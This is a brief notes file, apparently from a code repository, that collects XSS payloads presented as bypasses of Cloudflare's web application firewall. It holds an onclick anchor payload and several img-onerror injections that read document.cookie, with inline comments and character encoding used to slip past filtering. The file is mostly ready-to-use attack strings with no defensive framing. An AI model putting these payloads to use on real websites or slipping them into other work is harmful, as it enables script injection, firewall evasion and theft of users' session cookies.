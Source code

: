 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/); w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

XSS Bypass Waf Cloudflare ;) Poc 
```html
"//>//<img onerror="alert(document.cookie)/***/" src="P"/>
"//>//<img src=P onerror=alert&#0000000040document.cookie)/**/> "
>00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
```
